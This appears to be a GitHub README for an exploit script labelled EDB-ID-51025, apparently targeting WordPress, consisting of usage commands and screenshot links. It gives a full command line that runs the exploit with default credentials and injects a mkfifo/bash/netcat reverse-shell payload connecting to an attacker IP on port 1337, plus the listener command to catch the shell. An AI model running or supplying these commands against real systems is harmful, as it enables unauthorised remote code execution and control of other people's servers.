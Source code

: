 # EDB-ID-51025


Usages:
- `python3 EDB-ID-51025.py -d http://192.168.228.143 -u wordpress -p wordpress -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.228.128 1337 >/tmp/f"`


Steps: For getting Shell
- nc -nvlp 1337

![image](https://user-images.githubusercontent.com/44284877/228901044-d417ea58-6a99-4012-93c4-a0926cde7c7f.png)

- `python3 EDB-ID-51025.py -d http://192.168.228.143 -u wordpress -p wordpress -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.228.128 1337 >/tmp/f"`

![image](https://user-images.githubusercontent.com/44284877/228901183-89953c82-b53b-4345-8017-468c99e250e1.png)



